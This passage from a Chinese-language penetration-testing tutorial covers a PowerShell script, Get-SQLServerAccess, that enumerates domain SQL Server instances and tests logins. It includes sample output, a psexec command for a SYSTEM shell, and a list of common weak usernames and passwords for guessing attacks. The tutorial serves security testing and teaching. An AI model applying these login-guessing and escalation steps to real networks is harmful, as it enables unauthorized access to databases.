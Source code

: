 ```
[*] 3 of 5 SQL Server instances could be accessed.        
[*] End Time: 04/01/2014 10:02:00      
[*] Total Time: 00:02:00
[*] ---------------------------------------------------------------------- 
```

下面是一个上例中输出的截图。

![enter image description here](img/img3_u31_png.jpg)

上面的例子只是展示了我实验室中测试的结果，但是在真实环境中我通常看到成百上千的服务器。Just for fun，我同样建议你以一个域用户权限去运行这个脚本，通过使用”psexec.exe –s –I cmd.exe”之后可以获取一个本地 system 权限的 shell。然后向上述的一样运行脚本。我想你会惊讶于登陆进了多少台 SQL server,我记得我当时的样子。不管怎么说，到了攻击的例子了。 攻击者使用示例 对于 SQL server 来说有很多的攻击方法。下面我将介绍在脚本帮助下的五种攻击技术。

**1，弱口令猜解**仍然是一种有效的攻击方法。在每个客户的测试环境中，我们发现每次都有少量存在弱口令的 SQL Server。通常登陆用户名包括 sa,test,dba,user 和 sysadmin。密码则是:[the username], [the company], password, Password1 和 SQL。除此之外有很多的数据库弱口令猜解工具，但是我还是加了一个 SQL Server 登陆的参数来验证在 ADS 中发现的 SQL Server，下面是一个示例。注意：这个参数也可以方便的发现不同服务器登录情况。

```
PS C:\Get-SQLServerAccess -sqluser test -sqlpass test
[*] ----------------------------------------------------------------------
[*] Start Time: 04/01/2014 10:00:00
[*] Domain: mydomain.com
[*] DC: dc1.mydomain.com
[*] Getting list of SQL Server instances from DC as mydomain\myuser...
[*] 5 SQL Server instances found in LDAP.
[*] Attempting to login into 5 SQL Server instances as test...
[*] ----------------------------------------------------------------------
[-] Failed   - server1.mydomain.com is not responding to pings
[-] Failed   - server2.mydomain.com (192.168.1.102) is up, but authentication failed
[+] Failed   - server3.mydomain.com,1433 (192.168.1.103) is up, but authentication failed
[+] Failed   - server3.mydomain.com\SQLEXPRESS (192.168.1.103) is up, but authentication failed
[+] SUCCESS! - server4.mydomain.com\AppData (192.168.1.104) - Sysadmin: No - SvcIsDA: Yes             
[*] ----------------------------------------------------------------------
[*] 1 of 5 SQL Server instances could be accessed.        
[*] End Time: 04/01/2014 10:02:00      
[*] Total Time: 00:02:00
[*] ---------------------------------------------------------------------- 
```
